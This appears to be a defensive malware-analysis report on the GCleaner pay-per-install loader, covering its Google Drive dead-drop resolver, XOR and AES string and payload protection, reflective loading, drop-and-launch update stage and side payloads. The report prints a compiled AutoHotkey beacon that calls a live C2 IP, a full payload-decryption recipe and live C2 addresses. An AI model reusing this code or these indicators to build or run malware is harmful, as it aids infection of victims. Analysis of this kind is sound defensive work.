



# GCleaner Loader

> [!TIP]
> **Key highlights**
> - **Pay-per-install chain, end to end.** Two components — the loader and the update payload — cover the full delivery path.
> - **Three layers of string protection.** Substitution cipher, single-byte XOR, AES-128-CBC.
> - **C2 protocol walkthrough.** Dead-drop resolver, registration, key exchange, encrypted payload retrieval.
> - **A second path, `/ycl`.** By `User-Agent`, it serves a stub that unpacks a trial-ware cleaner and a cracked UI library the cleaner references.
> - **A lighter beacon, `logger.file`.** Two versions send one plaintext `GET` with `s=zzzztest&substr=four`. They drop the key exchange and the payload.


## Observed sample

| Field | Loader | Update payload |
|---|---|---|
| SHA256 | `d3b3a4973f2513fc0513039eab279fc808fcb48ce4ce3a0bc5c3b734217cafaf` | `1bdc51e52738f9d34314e8e91f5538a54a75f167fb2b47d5beacf7d4ede9d601` |
| MD5 | `901ff7df218f19164e4d289fd6a7064e` | `754e174bad4aa79f83b12e013311fab9` |
| SHA1 | `4bdceade9e88243e39c4c0ce1c6293bc88e9fa92` | `082e8f6f23af0fb0f97584a2b9af6981f361901f` |
| imphash | `0e8dc3c1ed837a50062e1587a9cd450e` | `302f4ebdce63d1e3cfae816587e486af` |
| ssdeep | `3072:e51Wa8DwZU1jQupA47HGdK9ezOWSOSBdC2jPO7c4SyUMCx1asgG4PPAs2TH6Pz9L:e51Wa8DsU1jQKA47HGdK9ezOWSOSBdCL` | `3072:oV04cEua0Uy+RydGWxjKCkIzl10RxSJ/N39:5gd9y9GkjKuaSn39` |
| File type | PE32, GUI subsystem, Intel i386 (32-bit), MSVC/VS2019 (linker 14.29), C/C++ | PE32 **DLL**, GUI subsystem, Intel i386 (32-bit), MSVC/VS2022 (linker 14.33), C/C++ |
| Size / sections | 174,080 bytes, 5 sections (`.text`/`.rdata`/`.data`/`.rsrc`/`.reloc`); max entropy 6.6854 (`.text`), no overlay | 99,840 bytes, 4 sections (`.text`/`.rdata`/`.data`/`.reloc`); max entropy 6.606 (`.text`), no overlay, **no `.rsrc` at all** |
| Compile timestamp | `0x67FE7EDA` → 2025-04-15 15:44:26 UTC | `0x67A693EB` → 2025-02-07 23:14:51 UTC |
| Exports |  —  | One — `updateSW`, ordinal 1, RVA `0x1f36` |
| Developer's own filename | — | `fuckingdll.dll`, embedded by the linker. The C2 serves the encrypted form as `fuckingdllENCR.dll` — same name, `ENCR` suffix marking the ciphertext |
| Packer | It is itself the decrypted stage of a CryptOne-packed parent |  —  |
| Signature | —  | —  |
| Delivery vehicle | Decrypted stage carved out of a CryptOne-packed Delphi loader | Fetched as an encrypted HTTP response body, mapped straight into the loader's process |

> [!NOTE]
> No entropy or import-table anomaly in either file. Entry points sit in normal locations, both import tables are intact, no section exceeds 7.0 entropy. Protection in the loader is entirely at the string level.


## Starting point: Open Source reports

VirusTotal provides the first orientation. The sample matches the VT Collection GCleaner [[1]](#ref-1) documented on Malpedia [[2]](#ref-2). The VT relations tab surfaces 59 dropped files and outbound network connections:

- HTTPS request to `drive.usercontent.google.com` carrying a file download URL
- HTTP requests to `91.92.242.236` on endpoints `/info`, `/update`, `/service`, `/success`
- A `substr=mixthree&s=three&sub=none` parameter set on the `/success` call


> [!WARNING]
> **VirusTotal inconsistency**
>
> The first submission (2026-09-19 05:44:42 UTC) comes before "First seen in the wild" (2026-09-19 07:15:37 UTC). There is no documentation on the exact meaning of that field, so this date is not used.


JoeSandbox [[3]](#ref-3) confirms the GCleaner identification. The sample is identified in the primary process and in memory. The sandbox also shows a long process tree: Amadey, HijackLoader, REMUS Stealer, Socks5Systemz, Vidar — GCleaner seems to be the entry point of a large chain.


Network traces match VirusTotal's relations. The HTTP request to Google Drive returns a string that precedes every subsequent C2 connection.

```text
Answer => IAKIBKBDBKBCF
```
The sandbox also captures the HTTP exchanges on the C2:

| Endpoint | Response |
|---|---|
| `/success?substr=mixthree&s=three&sub=none` | `1` (ASCII) |
| `/info` | `29K3OL-/p)wt0` (ASCII) |
| `/update` | ASCII content, served as `fuckingdllENCR.dll` |
| `/service` | Many Binary content starting with `MZ` served as `1TEST.file, UNIQTWO.file, MIX1.file, MIX2.file` etc...|


The sandbox also captures folder creation under `%APPDATA%` with randomised names (`ufJraPTT2`, `cYG8O5K0z5`, `LSHPNrchB`, …) and executable files written into each.

### Four gaps to fill

Multiple independent signals point to GCleaner: a Proofpoint ET signature match, VT Collection and Malpedia cross-reference, Sandbox behavioural identification.
Code-level confirmation comes from the analysis below — the substitution cipher, the `YClean` brand string, the `/success` registration call with its `mixthree` parameter, and the `updateSW` export convention all match public GCleaner documentation.

OSINT tells us *what* the sample does at the network level. It talks to Google Drive, talks to a C2 on `91.92.242.236`, fetches files. It does not tell us *how*. Four questions remain:


1. **What is the string from Google Drive?** `IAKIBKBDBKBCF` — what is it, how does the loader use it?
2. **How does the loader talk to its C2?** The sandbox captured HTTP requests to `/info`, `/update`, `/service`, `/success` — those endpoint names don't appear in a `strings` pass. Where are they?
3. **What does `/update` serve?** The filename `fuckingdllENCR.dll` suggests encryption. How does the loader decrypt it?
4. **What does `/service` deliver?** The response starts with `MZ`. What happens to it?

Each question drives the next step of the analysis.

## What does the Google Drive string decode to?

The sandbox returned `IAKIBKBDBKBCF` from the Google Drive request. The loader uses it right after the fetch — so the question is what it does with it.

### Pivoting into the binary

`strings` gives the full Google Drive URL, hardcoded in `.rdata` at `0x00427338`:

```text
drive.usercontent.google.com/download?id=1YBVIDkZgygNfUU2rbJXXCYdrzay5rMdY&export=download&authuser=0&confirm=t
```

Two xrefs point into `FUN_00401b7d` — the HTTPS GET builder. The response body flows into `FUN_0040429c`.

### The substitution cipher

`FUN_0040429c` builds a 22-byte lookup table from three pieces:

```text
"A1B2C3D4E5F6G7H8"   MOVAPS XMM0,[0x4274b0]     ← 16 bytes, .rdata
        + "I9J0"     dword 0x304a3949 at 0x4042d1  ← stack immediate
        + "K."       word  0x2e4b     at 0x4042db   ← stack immediate
= "A1B2C3D4E5F6G7H8I9J0K."
```

Each letter maps to the character after it:

```text
A→1  B→2  C→3  D→4  E→5  F→6  G→7  H→8  I→9  J→0  K→.
```

A substitution cipher. The FNV-1a hash at `0x404330` (offset basis `0x811c9dc5`) builds the hashmap for lookup.

### The decode

Applied to the string the redirector returns:

```text
I  A  K  I  B  K  B  D  B  K  B  C  F
9  1  .  9  2  .  2  4  2  .  2  3  6      →  91.92.242.236
```

Validated in CyberChef with a find/replace substitution. Matches the C2 IP from the sandbox traces.

> [!WARNING]
> **Signature fragility**
>
> Only the first 16 bytes sit in `.rdata` as a contiguous literal. The trailing six come from stack immediates. A YARA rule on the full 22-byte string misses this sample.

**What this means for the C2.** The IP is resolved at runtime through a public file-hosting service, decoded locally, never stored. Rotating the C2 is simple as updating a Google Drive file.

## How does the loader talk to its C2?

The C2 address is decoded (`91.92.242.236`). The sandbox showed requests to `/info`, `/update`, `/service`, `/success` — but `strings` on the binary only returns `/service` which is in plaintext at `0x4273a8` .

### Finding the HTTP request builder

`strings` does match one thing from the sandbox: the `Accept-Language` header.

```text
Accept-Language: ru-RU,ru;q=0.9,en;q=0.8
```

In `.rdata` at `0x00427030`. One xref leads to `FUN_00401592` — the function that adds four hardcoded HTTP headers to every outbound request. Two callers:

- `FUN_00401b7d` — the Google Drive HTTPS request (already seen)
- `FUN_004019cc` — a generic HTTP request function that takes a target URL as parameter

`FUN_004019cc` calls into `FUN_00401d31`, which prepares the request. Inside `FUN_00401d31`:

```asm
(&DAT_0042ba3c)[uVar2] = (&DAT_0042ba3c)[uVar2] ^ 0x2f;
```

The endpoint names are XOR-encrypted with a single-byte key `0x2F`,each decodes once per process lifetime.

Four decoders at `0x40715d`, `0x407172`, `0x407187` and `0x40719c` differ only in loop bound.

| Plaintext | Address | Ciphertext bytes |
|---|---|---|
| `/info` | `0x42b978` | `00 46 41 49 40 2f` |
| `/update` | `0x42ba74` | `00 5a 5f 4b 4e 5b 4a 2f` |
| `/check` | `0x42b864` | `00 4c 47 4a 4c 44 2f` |
| `usone` | `0x42b8cc` | `5a 5c 40 41 4a 2f` |
| `ustwo` | `0x42b7ec` | `5a 5c 5b 58 40 2f` |
| `YClean` | `0x42ba20` / `0x42bb6c` | `76 6c 43 4a 4e 41 2f` |
| `Software\YClean\YClean` | `0x427510` | `7c 40 49 5b 58 4e 5d 4a 73 76 6c 43 4a 4e 41 73 76 6c 43 4a 4e 41 2f` |


The same algorithm covers a larger set of strings in `0x405528`–`0x4058da` that feed the parameters dictionary. For this build: `letter=C`, `s=three`, `sub=none`, `substr=mixthree`.

### The communication sequence



The loader resolves its C2 through a public file-hosting redirector, registers the install before requesting any payload, then derives AES key material from one HTTP response and decrypts the update payload from a second. The resulting PE is mapped and executed in-process — nothing touches disk.

Once the C2 address is resolved, the first network action is the install-registration call. A `GET` to `/success` carries the subscription parameters — `substr`, `sub` and `s` — as query fields. This call precedes both `/info` and `/update`. After registration the protocol is linear. No environment check, nor command conditional branch.

> [!NOTE]
> **PPI model registration**
>
> In a PPI model, this request could be the billing event. We can not credit this hypothesis with high confidence. We observed the `substr` parameter change result in a different set of payload. We also observed a limitation to a single registration per IPv4 address. This part will be cover in a another report.

## What does `/info` return, and what is it for?

The sandbox captured the `/info` response as `29K3OL-/p)wt0` — 13 bytes of seemingly random ASCII. What role does this string play?

### Following the data flow

Tracing from the `/info` fetch into `FUN_00403d15` — the poll-and-decrypt orchestrator — the response body flows directly into `FUN_00403015`, the CryptoAPI decryption function as the AES password

### The decryption recipe

`FUN_00403015` decrypts the `/update` response body using the Windows CryptoAPI.

| Parameter | Value |
|---|---|
| Provider | `Microsoft Enhanced RSA and AES Cryptographic Provider` (UTF-16LE), at `0x4272b0` |
| Cipher | AES-128 (`CALG_AES_128`, `0x660e`) |
| Password | Entire `/info` response body, widened to UTF-16LE via `mbstowcs` before hashing |
| Key derivation | SHA-256 of the UTF-16LE password, truncated to 16 bytes |
| Mode / IV / padding | CBC, all-zero IV, PKCS7 — CryptoAPI defaults, no `CryptSetKeyParam` call |
| Chunking | 160-byte (`0xA0`) chunks, `Final = TRUE` only on the last |

The whole recipe in one line:

```text
key = SHA-256( UTF-16LE( /info response body ) )[:16]
plaintext = AES-128-CBC( /update body, key, IV = 0x00 × 16 )   # PKCS7, 160-byte chunks
```

> [!IMPORTANT]
> **The UTF-16LE widening is easy to miss**
>
> A `strlen()` at the hashing site makes it look like the raw bytes are hashed as-is. The length feeds a CRT chain that resolves to `mbstowcs`, sitting between the HTTP read and `CryptHashData`. Confirmed empirically: the captured `/update` ciphertext decrypts to a byte-valid PE only under the UTF-16LE reading.



*The `/info` response supplies the AES key material. The `/update` response is the ciphertext. After decryption, a built-in reflective loader maps the PE, resolves imports, applies relocations and transfers execution to `DllMain` — no file is written.*


## What does `/update` serve?

The `/update` endpoint delivers `fuckingdllENCR.dll` — the AES-encrypted PE that the recipe above decrypts. Once decrypted and validated, the loader maps it in-process with a loader that follows the public MemoryModule library (`FUN_00402ac0`) and calls its sole export.

### Reflective loading

`FUN_00402ac0` validates DOS and NT headers, allocates the image, copies sections, resolves imports, applies relocations, sets page protections, and calls `DllMain(DLL_PROCESS_ATTACH)`. It then resolves export `updateSW` and calls it with the assembled `http://<c2_host>/service` URL.


### The mapper has the structure of the public MemoryModule library

`FUN_00402ac0` most likely derives from the public MemoryModule library (Joachim Bauch, `fancycode/MemoryModule`, 32-bit build, close to version 0.0.4). This is an assessment with medium confidence. It rests on a structure comparison of the decompiler output with upstream's `MemoryModule.c`, not on a byte-level match. 

| Compared | Result |
|---|---|
| Load flow, section copy, relocation, imports, TLS, export lookup | Same order and logic as upstream. Relocation keeps only `HIGHLOW` because upstream compiles `DIR64` in for 64-bit builds only |
| Module struct | `0x40` bytes, the same 16 fields in the same order as upstream's 32-bit struct |
| Callbacks | The five callbacks (`FUN_00402a68` to `FUN_00402ab2`) are called the way upstream calls its allocator, loader and resolver. The wrappers themselves were not read |
| Error messages | **Differs.** Upstream only calls `SetLastError`. Its debug output goes to `OutputDebugString` in a `DEBUG_OUTPUT` build. This sample prints text to stdout at each failure, such as `Section alignment invalid!`. Those strings are not in upstream |


| Step | What the code does | Address |
|---|---|---|
| Validate | Size ≥ `0x40`, `MZ`, `PE\0\0`, machine `0x14c`, section alignment, `SizeOfImage` equals the page-aligned end of the last section. A failure prints a string such as `Section alignment invalid!` | `0x402ac0` |
| Allocate | `VirtualAlloc` at the preferred `ImageBase`, then at any address if that fails. Pages start as `PAGE_READWRITE` | `0x402ac0` |
| Copy | Headers first, then each section to its virtual offset. A section with no raw data gets zeroed pages | `0x4025d9` |
| Relocate | Only if the base moved. Applies type `3` (`IMAGE_REL_BASED_HIGHLOW`) entries and skips every other type | `0x40289a` |
| Imports | Loads each DLL, then resolves each function by name or ordinal | `0x402929` |
| Protect | Sets each section's final page protection | `0x402795` |
| Run | Calls the TLS callbacks with `(base, 1, 0)`, then the entry point as `DllMain(DLL_PROCESS_ATTACH)` | `0x402ac0` |
| Export | Looks up `updateSW` and calls it | `0x402dd0` |

The machine check accepts only `0x14c`, so this mapper rejects a 64-bit payload.

### The update payload

The decrypted module is 99,840 bytes. Its sole export takes two caller-supplied arguments — `updateSW(url_or_host, ua)` at `0x10001f36` — seeds `rand()` from `time()`, allocates a 500,000-byte (`0x7a120`) response buffer, and runs a single fetch-drop-launch sequence.

#### The randomised drop path

Anything at or below `0x800` bytes is discarded and `updateSW` returns `-1`. Above that threshold, the response is treated as an executable — no header check, no signature check.

The drop directory is randomised from an 84-character shuffled alphabet at `0x10015f40`:

```text
A6789STDvwyzGaNOPQRKCpMNOPHIJ012367EbcdefghxFQ45ijklmnopqrstuLRSTUBKLMVWXYqrstuvw89Z
```

One character per `rand() % 84`, indexed straight into the table — six instructions:

```asm
10001ca9: CALL FUN_10005b42          ; rand()
10001cae: XOR  EDX,EDX
10001cb0: PUSH 0x54
10001cb2: POP  ECX
10001cb3: DIV  ECX                   ; EDX = rand() % 84
10001cb8: MOV  DL,byte ptr [EDX + 0x10015f40]
```

Three call sites, three length formulas: `rand() % 5 + 9` at `0x10002051` giving 9–13 characters, `rand() % 7 + 5` at `0x10001d70` giving 5–11, and a signed-modulo-8 idiom (`AND EAX,0x80000007`) plus 4 at `0x10001e53` giving 4–11 for the `%TEMP%` fallback.

The path resolves `%APPDATA%` through `SHGetFolderPathA` with `CSIDL_APPDATA`, falling back to `getenv("APPDATA")`, appends the random directory, and calls `CreateDirectoryA` tolerating `ERROR_ALREADY_EXISTS` (`0xB7`). On any other failure it falls back to `GetTempPathA` or `getenv("TMPDIR")` and retries. A literal `.exe` is appended, the bytes are written with `CreateFileA`/`WriteFile`/`CloseHandle`, and the file is launched with `CreateProcessA`, falling back to `ShellExecuteA(NULL, "open", path, NULL, NULL, SW_SHOWDEFAULT)`.





*The loader fetches encrypted content and keeps it in memory. The update payload fetches `/service` in cleartext, writes the response to `%APPDATA%` under a random filename, and launches it with `ShellExecuteW`. First and only point in the chain where an artifact touches disk.*


The `/service` endpoint is the end of the chain of this analysis. The sandbox captured its response starting with `MZ` — a PE header — served under the filename `1TEST.file`. The update payload fetches this endpoint, writes the response to `%APPDATA%` under a random filename with a `.exe` extension, and launches it.


## The `logger.file`

`logger.file` is the last file the `/service` endpoint serves. It just beacons the c2 with a single `GET /good?s=zzzztest&substr=four`

We have documented 2 versions between September and November 2026

The first version keeps the loader's dead-drop resolver and drops everything after it. It fetches the Google Drive file the loader uses (`id=1YBVIDkZgygNfUU2rbJXXCYdrzay5rMdY`) and decodes it with the same letter mapping, `A`–`I` to `1`–`9`, `J` to `0`, `K` to `.`. If the output has 7 characters or more, it is the beacon host. Otherwise the host is the hard-coded `158.94.209.95`.It then sends one `GET /good?s=zzzztest&substr=four` on port 80, reads the reply and discards it. There is no key exchange, no payload, no sleep, no retry and no loop.

The second version drops the resolver too. The beacon is a compiled AutoHotkey script, and the interpreter around it is stock. The script holds the host in plaintext, so changing it means rebuilding the file.

```text
; <COMPILER: v1.1.37.02>
#NoTrayIcon
pppisx := ComObjCreate("WinHttp.WinHttpRequest.5.1")
pppisx.Open("GET", "http://109.238.86.13/success?s=zzzztest&substr=four", true)
pppisx.Send()
pppisx.WaitForResponse()
ExitApp
```


### First version

| Field | Value |
|---|---|
| SHA256 | `aba14a64c2427ab54db44a605d5b408d57e713b3a4d26a226b657c3f9fb12928` |
| MD5 | `4bd321ac2163c30f557e5afcd182748d` |
| SHA1 | `9aaa9c8c49fa50c7a8cbf55ffda6fdce704fec6f` |
| imphash | `56cec9df8972d62c264a5f8ff5aa5ab6` |
| ssdeep | `192:i6fTPULD5G7eEyzMlVnhfyGjcuXl0mRiZSJWXFa4n:i6fTMLD5G7WgVn8Gj5XlQMJ8g` |
| File type | PE32+ GUI, x86-64 |
| Size / sections | 10,752 bytes, 5 sections (`.text`/`.rdata`/`.data`/`.pdata`/`.rsrc`); max entropy 6.11 (`.text`), no overlay |
| Compile timestamp | Not retrieved |
| MWDB parents | The update payload `1bdc51e5…d601`, and a CryptOne-unpacked loader `410070fe…40d1` (`substr:mixsix`) |
| Packer | None. Every function is readable in the disassembly |


### Second version

| Field | Value |
|---|---|
| SHA256 | `3eb383f192c4a3b30d7fbb6d34238a49c6969597bb286de790df2709f2a26343` |
| MD5 | `80745874086c55c7bf00814ca112095d` |
| SHA1 | `4c842796cebf6e6f30032e05377bda48ec81fe81` |
| imphash | `62848721a0fe32270ffbda7abe4e1f5c` (shared by every AutoHotkey 1.1.37.02 build) |
| ssdeep | `12288:bYEd//LbpeDJ4jfiIaBRtwfESz9pfYbVC3pKEVj4988fLn:bbJIJ4TiIaBYfTz9wC3pKqH8fLn` |
| File type | PE32 GUI, x86. Stock AutoHotkey 1.1.37.02 interpreter |
| Size / sections | 894,976 bytes, 4 sections (`.text`/`.rdata`/`.data`/`.rsrc`); max entropy 6.62 (`.text`), no overlay by section arithmetic |
| Compile timestamp | Not retrieved |
| MWDB parent | The update payload `1bdc51e5…d601` |
| Packer | None. The script is not encrypted or compressed |
| Logic | A 216-byte plaintext script in the `RT_RCDATA` resource `>AUTOHOTKEY SCRIPT<` (RVA `0xe0e78`, SHA-256 `2c405cedaa3d74d01db889f28527eaf65602ea3e824be548b420bdcea10c3cce`) |


## What does `/ycl` serve?

`/ycl` serves two files and picks one by the `User-Agent` header. The first is an installer stub, `YCL.exe`, that unpacks and starts a trial-ware cleaner window. The second is `Bunifu_UI_v1.5.3.dll`, a cracked build of a commercial UI library that the cleaner references by name.

> [!NOTE]
> **Source of the request data**
>
> The analyst checked the two requests by hand and read the response headers. No sandbox captured them, so the host and the date are not recorded here. The file contents come from the KB reports on each hash.

The loader's recovered configuration lists `/ycl` next to the file names `YCL.exe`, `YCL.lnk` and `Bunifu_UI_v1.5.3.dll`. No code path to `/ycl` was traced in the loader. It is not in the XOR-decoded strings above.

### One endpoint, two files

| Request | `Content-Disposition` | File | SHA-256 | Size |
|---|---|---|---|---|
| `GET /ycl`, `User-Agent: s` | `filename=soft` | `YCL.exe`, a patched 7z self-extracting stub | `7c47fb79480c25d7108ab62ac02412b9492ea507bd4fe4dba519fd4372cde619` | 3,240,552 bytes |
| `GET /ycl`, `User-Agent: d` | `filename=dll` | `Bunifu_UI_v1.5.3.dll`, PE32 .NET DLL | `f1b3e0f2750a9103e46a6a4a34f1cf9d17779725f98042cc2475ec66484801cf` | 242,176 bytes |

The `Content-Disposition` names (`soft`, `dll`) differ from the file names. The file names come from the loader's configuration.

### What the stub unpacks

`YCL.exe` is a 7z self-extracting archive. It opens its own archive with a password that sits in the stub's code. Before it extracts anything, its config runs `KillDuplicate.cmd` hidden. That script counts the running copies of the stub and kills the process tree of the extra one. The stub then extracts `main.bat`, `KillDuplicate.cmd`, `7z.exe`, `7z.dll` and `file.bin` into `%Temp%\main` and runs `main.bat /S` hidden. `main.bat` renames `file.bin` to a zip and unpacks it with `7z.exe` and a password written in the script. That zip holds one file, `file_5.zip`. The script then unpacks `file_5.zip`, then `file_4.zip`, down to `file_1.zip`, with no password. Each zip holds the next one. `file_5.zip` also holds `AntiAV.data`, and `file_1.zip` holds `ycorig.exe`. The script moves `ycorig.exe` up into `%Temp%\main` and deletes its work folder. It then sets the hidden attribute on `ycorig.exe`, starts it, waits at `pause` and deletes `ycorig.exe`. The stub deletes its temp folder after `main.bat` returns. Nothing was run. This is read from the stub config and the two scripts.

The delete after `pause` may never run, because the console is hidden and `pause` waits for a key. That is inferred.

Every member is dated `2026-06-14 15:26:06`, except `ycorig.exe`. It keeps `2025-07-08 17:04:12`, so the executable is about 11 months older than the wrapping.

| File | Role |
|---|---|
| `main.bat`, `KillDuplicate.cmd` | The two scripts above. They call no network tool. |
| `7z.exe`, `7z.dll` | Presumed 7-Zip 19.00. Not compared with the upstream release. |
| `file.bin` | 2,186,917-byte zip, SHA-256 `b96c8639c5076a16bd09275d529f294aa6069ae2ee7dc9406c50538fe61669ea`. |
| `AntiAV.data` | 2,453,685 bytes, no script reads it. The first 2,036,998 bytes are random letters and digits. The last 416,687 are decimal digits. No file header was found in either part. It is probably filler that inflates the archive. That is inferred. |
| `ycorig.exe` | The last file in the chain. See below. |

The stub itself has no network code and no persistence. Its family is not established. Its link to GCleaner comes through a parent relation only.

### `ycorig.exe`

`ycorig.exe` is a trial-ware "Y-Cleaner" window. Its Clean button deletes files under `%TEMP%` and opens a hard-coded referral URL in the browser. SHA-256 `dbcef1d924bb04367891dd29e75f2a1f3886600789f77b8207e211028db334ba`, internal name `YC.exe`, version `1.3.2.5`, PE32 .NET, 583,168 bytes.

| Behavior | Detail |
|---|---|
| Clean button | Deletes every file under `%TEMP%`. The Chrome cache is listed but never deleted. |
| Referral URL | Every click opens `freebitco.in` with referral ID `r=7626766`. The code picks the URL with `Random.Next(0, Length-1)`, which always gives index 0. |
| Banner click | Opens a casino mirror on `bcgame-bcallmain-mirror2.com` with click ID `9da773c7-de11-40d3-a2e0-adff53377c2a`. |
| Trial gate | State sits under `HKCU\SOFTWARE\YClean\SetCheck`, `License` and `TrialChecks`. The window exits at 20 cleans. |
| Licence check | Offline. The entered text is compared with a hard-coded constant. A match sets `License` to `1`. |
| `chk` argument | Creates an empty file named `test` in the working directory. The window still opens. |

It has no network client, no persistence, no crypto and no packer. The high `.text` entropy (7.92) comes from 472,192 bytes of image resources. Every entry holds a valid PNG, JPEG or icon, with no data appended. Nothing was run, so these results come from the decompiled code.

> [!NOTE]
> **Shared registry root**
>
> The loader writes `HKCU\Software\YClean\YClean`. `ycorig.exe` keeps its state under `HKCU\SOFTWARE\YClean\`. Both use the `YClean` brand. That is an observation, not proof of a shared author.

### `Bunifu_UI_v1.5.3.dll`

The DLL is a cracked build of the commercial Bunifu UI 1.5.3 control library. It has no entry point and 95 types. Assembly `Bunifu_UI_v1.5.3`, version `1.5.3.0`, no strong name, MVID `b5b42096-3d33-4954-8acc-f9cd769adea7`.

| Behavior | Detail |
|---|---|
| Licence check | `License.Check` and `License.Authenticate` only set `Verify.Verified = true`. |
| Popup | A message box reads `Bunifu UI cracked by COOL_LEMUR`. It shows only when the host process path contains `devenv.exe`. |
| Unused helpers | A file downloader, a JSON REST client, a `CMD.exe /C` runner, a WMI baseboard query and a Rijndael helper. Nothing in the DLL calls them, except the runner. Its one caller is a loop that never runs. |
| Embedded hosts | None. The only domain is the vendor's, inside the licence text. |

The DLL has no payload, no persistence and no embedded server address. A host process that loads it could still call the public helpers. That is inferred.

**What is not established.**

- `ycorig.exe` references an assembly named `Bunifu_UI_v1.5.3`, version `1.5.3.0`, with no token. That matches this DLL. It matches the stock vendor build equally, so the link is consistent but not proven.
- The stub archive does not contain the DLL. Which step places it next to `ycorig.exe` is unknown. Without it, .NET cannot bind the reference.
- How a victim reaches `/ycl`, and which request chooses `s` or `d`, is not traced in the loader or the update payload.
- The helper types were not diffed against a stock Bunifu build, so they may predate the crack.

## Persistence

Neither the loader, the update payload nor the two `logger.file` versions installs a persistence mechanism. No `Run`, `RunOnce`, `Services`, `AppInit_DLLs` or Startup-folder path appears in the binary. The `HKCU\Software\YClean\YClean` registry write is an install-tracking marker, not a reboot-survival key.


## MITRE ATT&CK

| Technique | ID | Component | Observation |
|---|---|---|---|
| Web Service: Dead Drop Resolver | T1102.001 | Loader | Public file-hosting redirector carries the encrypted C2 hostname |
